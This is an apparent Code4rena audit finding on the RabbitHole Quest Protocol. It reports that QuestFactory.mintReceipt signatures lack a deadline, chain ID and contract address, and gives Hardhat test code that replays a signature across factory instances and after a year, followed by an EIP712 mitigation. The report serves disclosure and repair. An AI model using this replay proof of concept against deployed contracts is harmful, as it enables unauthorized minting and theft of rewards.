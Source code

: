 # Original link
https://github.com/code-423n4/2023-01-rabbithole-findings/issues/107
# Lines of code

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/QuestFactory.sol#L219-L229


# Vulnerability details

## Impact
The `QuestFactory.mintReceipt` function mints `RabbitHoleReceipt` tokens based upon signatures signed by `claimSignerAddress`.
```solidity
    function mintReceipt(string memory questId_, bytes32 hash_, bytes memory signature_) public {
        if (quests[questId_].numberMinted + 1 > quests[questId_].totalParticipants) revert OverMaxAllowedToMint();
        if (quests[questId_].addressMinted[msg.sender] == true) revert AddressAlreadyMinted();
        if (keccak256(abi.encodePacked(msg.sender, questId_)) != hash_) revert InvalidHash();
        if (recoverSigner(hash_, signature_) != claimSignerAddress) revert AddressNotSigned();

        quests[questId_].addressMinted[msg.sender] = true;
        quests[questId_].numberMinted++;
        emit ReceiptMinted(msg.sender, questId_);
        rabbitholeReceiptContract.mint(msg.sender, questId_);
    }
```
In the above function only the account's address and quest id values are used to generate and validate the signature. 

This causes various issues which are mentioned below:

1. There is no deadline for the signatures. Once a signature is signed by `claimSignerAddress` that signature can be provided to `QuestFactory.mintReceipt` function to mint an RabbitholeReceipt token at any point in the future.

2. The signature can be replayed on other EVM compatible chains on which RabbitHole protocol is deployed. The [docs](https://github.com/rabbitholegg/quest-protocol/tree/8c4c1f71221570b14a0479c216583342bd652d8d#deployments) mention other EVM chain addresses of the contracts which means the protocol will be deployed on multiple chains.

3. The signature can be replayed on multiple instances of QuestFactory contract. If multiple QuestFactory contracts are deployed on a single EVM chain then signature intended for one contract can be replayed on the other ones.

Note that all these scenarios are true when `questId_` parameter stays same.

#### Actual Impact
Exploitation using the above mentioned scenarios will lead to unintended minting of RabbitholeReceipt token. This is a crucial token for the protocol which is also used to claim rewards from Quest contracts. Hence any unintentional minting will cause loss of funds.

## Proof of Concept
The test cases were added in `./test/QuestFactory.spec.ts` file and ran using command `npx hardhat test ./test/QuestFactory.spec.ts`.
```typescript
  describe.only('QuestFactory: Signature Replay Bug', () => {
    it('Signature can be used in different QuestFactory instance or on different chain', async () => {
      const randomUser = (await ethers.getSigners())[10];
      const questA = "A";

      // Sign message and create new Quest
      const messageHash = utils.solidityKeccak256(['address', 'string'], [randomUser.address.toLowerCase(), questA])
      const signature = await wallet.signMessage(utils.arrayify(messageHash))
      await deployedFactoryContract.setRewardAllowlistAddress(deployedSampleErc20Contract.address, true)
      await deployedFactoryContract.createQuest(
        deployedSampleErc20Contract.address, expiryDate, startDate, totalRewards, rewardAmount, 'erc20', questA
      )

      // Use the signature on First QuestFactory
      await deployedFactoryContract.connect(randomUser).mintReceipt(questA, messageHash, signature)
      expect(await deployedRabbitHoleReceiptContract.balanceOf(randomUser.address)).to.equal(1)

      const factoryPrevious = deployedFactoryContract
      const RHRPrevious = deployedRabbitHoleReceiptContract

      // Deploy a new QuestFactory (this could be on a different chain)
      await deployRabbitHoleReceiptContract()
      await deployFactoryContract()

      expect(factoryPrevious.address).to.not.eq(deployedFactoryContract.address)            // Verify we have new instance
      expect(RHRPrevious.address).to.not.eq(deployedRabbitHoleReceiptContract.address)

      // Create new Quest in new QuestFactory
      await deployedFactoryContract.setRewardAllowlistAddress(deployedSampleErc20Contract.address, true)
      await deployedFactoryContract.createQuest(
        deployedSampleErc20Contract.address, expiryDate, startDate, totalRewards, rewardAmount, 'erc20', questA
      )

      // Use the previously used signature again on new QuestFactory
      await deployedFactoryContract.connect(randomUser).mintReceipt(questA, messageHash, signature)
      expect(await deployedRabbitHoleReceiptContract.balanceOf(randomUser.address)).to.equal(1)
      expect(await RHRPrevious.balanceOf(randomUser.address)).to.equal(1)
    })

    it('Signature can be used after 1 year', async () => {
      const randomUser = (await ethers.getSigners())[10];
      const questA = "A";

      // Sign message and create new Quest
      const messageHash = utils.solidityKeccak256(['address', 'string'], [randomUser.address.toLowerCase(), questA])
      const signature = await wallet.signMessage(utils.arrayify(messageHash))
      await deployedFactoryContract.setRewardAllowlistAddress(deployedSampleErc20Contract.address, true)
      await deployedFactoryContract.createQuest(
        deployedSampleErc20Contract.address, expiryDate, startDate, totalRewards, rewardAmount, 'erc20', questA
      )

      // Move ahead 1 year
      await ethers.provider.send("evm_mine", [expiryDate + 31536000])

      // Use the signature
      await deployedFactoryContract.connect(randomUser).mintReceipt(questA, messageHash, signature)
      expect(await deployedRabbitHoleReceiptContract.balanceOf(randomUser.address)).to.equal(1)
    })
  })
```

## Tools Used
Hardhat

## Recommended Mitigation Steps
Consider including deadline, chainid and QuestFactory's address in the signature message. Ideally signatures should be created according to the [EIP712](https://eips.ethereum.org/EIPS/eip-712) standard.